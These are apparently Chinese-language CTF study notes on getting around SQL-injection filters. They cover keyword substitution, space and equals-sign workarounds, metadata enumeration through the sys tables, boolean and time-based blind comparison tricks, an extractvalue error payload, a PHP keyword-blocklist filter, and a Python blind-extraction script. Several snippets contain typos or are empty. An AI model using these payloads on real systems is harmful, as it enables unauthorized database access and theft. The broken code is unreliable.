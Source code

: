 ## 获得过滤词的方法：
1. 通过 burp suit 中的 intruder 模块来爆破我们的对应数据，根据我们的回显长度来判断我们哪些可用，哪些不可用。

2. 通过我们的 python 脚本来进行测试。

## 通用绕过方法：
1. 双写我们的单词

## 通用过滤：
1. 过滤 `or`:
考虑使用 `||` 或者 `|` 来替代, 或者如果过滤的很随便的话，可以考虑使用 oorr 来替代

2. 过滤 `and`:
考虑使用 `&` 或者 `&&` 来替代

3. 过滤 `database`:
我们考虑通过我们的查询一个不存在的表来得到我们的数据库库名，从而避免使用 database 函数

4. 过滤 column:
考虑用 join 去获得我们的对应字段，
```
extractvalue(1,concat(0x7e,(select *from (select *from output a join output b)c)))#
```

5. 过滤空格：
方法一：考虑通过我们的 `/**/` 来绕过
方法二：考虑换一段没有空格的 payload，其中我们的布尔盲注可以做到没有空格
```python

```
6. 过滤我们的等号：
考虑用我们的 `like` 来等价于我们的等号

7. 过滤 `union`:
使用 ununionion

## 无列名盲注：
1. 过滤 in
在过滤了 in 的情况下，也就意味着我们不能继续使用我们的 `information_schema`,这个时候，我们就不能通过我们的 `table` 和 `column` 了。

Mysql 5.7 以后，可以用 sys 系统数据库，了解这个库的元数据信息。

**查询库**
```
select table_schema from sys.schema_table_statisitcs GROUP by table_schema

select table_schema from sys.x$schema_flattened_keys GROUP by table_schema
```

**查询表**：
```sql
select table_name from sys.schema_table_statisitcs where table_schema='数据库名' GROUP BY table_name

select table_name from sys.x$schema_flattened_keys where table_schema='数据库名' GROUP BY table_name
```

2. 过滤 `information,sys`

**查询表**：
```
select table_name from mysql.innodb.table_stats where database_name=database();
```



## 布尔注入过滤词典：

1. 过滤 `union；substr，mid`
```php
<?php

if(isset($_POST["a"])){

    $a=$_POST['a'];

    if(preg_match('/union|;|and|substr|mid|drop|insert/i',$a)){

        die('sb');

    }else{

        echo'flag';

    }

}
```

截取方法：
1. 通过我们的 mid 或者 left+reverse 来截取我们的字符后缀，前缀，而通过 ascill 或者 ord 来获得我们的后缀字符的第一个字母是什么。同时，我们的 ascill 码符号是比较通用的数据。
```python
select * from usere where id='1'a and ascii(mid(字符串,2))>=98
```

2. 使用我们的 trim 从目标字符串中去除我们的目标字符串中的开头的字母，

```sql
select trim(LEADING <i> from 'abcd')=trim(leading<i+1> from 'abcd')
```

我们的输入如下：
1. 如果我们的 i 和 i+1 都不是正确的结果：我们的返回为 true。
2. 如果我们的 i 和 i+1 中有一个是正确的结果：我们的返回为 false。
于是，我们就可以根据我们的回显为 true 还是 false 来判断我们当前的字符是不是我们的 i。

3. insert 字符串：
```sql
select insert('abc',1,2,'xx');
```

上述语句的作用就是把我们的字符串从某个位置开始的一定长度替换为我们的后面的字符串。本质上相当于进行了某一个字符串替换。

于是我们考虑下面的构造方法：假设我们要判断我们的第 $x$ 位是什么，我们第一步就需要把我们的第 $x$ 位之前的数据全部删除，然后，把我们的第 $x+1$ 位及其以后的数据全部删除。

```cpp
select insert((insert('字符串'，1,pos,''),2,99999,''))
```

之后，可以通过修改我们的 pos 来求出我们的对应位置是什么。

比较方法：
1. 等于
2. 大于，小于
3. Like
Like 可以用于判断我们两个数据之间是否存在相同的前缀或者后缀。如果没有使用百分号，like 完全等价于等于号。
```sql
sekect database() like "2019%"
```

4. 正则表达式比较 
```sql
select database() regexp "^ctf"; #不区分大小写
select binary database() rlike "^ctf" #区分大小写的
```

5. between 比较
判断是否在一个范围内：
```sql
select 1 between 1 and 1 #判断是不是完全等于1
```

6. In
判断一个元素是否在一个集合内（区分大小写）：
```sql
select 'a' in ('abc') #同理我们可以让我们的集合完全等于一个
```

7. 异或
主要用于我们在不能消除我们的两个判断符的时候，我们只能采用我们的异或来进行
```sql
select ... where id='1' ^(logic form)^()'1'
```

## 时间盲注过滤：
1. 过滤了 sleep

### Benchmark
我们可以采用其他的耗时很长的函数来进行我们的处理，例如我们的 benchmark 函数，可以测试某些特定操作的执行速度，例如：
```sql
benchmark(1000000,sha1('1234'))
```

我们执行上面的函数也会需要很长时间。

```python
import requests

import time

url="https://ww"

select="select database()"

result=""

for i in range(1,100):

    for j in range(32,128):

        condition=f"ascii(substr(({select}),{i},1))={j}"

        payload=f"123123 and benchmatrk(114514*({condition}),sha1('123123'))%23"

        try:

            r=requests(url=url+payload,timeout=3)

        except:

            result+=chr(j)

            print("[+]",result)

            break

        if j==127:

            print("完成")

            break
```

#### 笛卡尔积：
其中，我们的关键是我们的 `count(*)`,

```sql
SELECt count(*) from information_schema.columns A,information_schema.columns B;
```


#### getlock 方法：


#### 正则表达式：

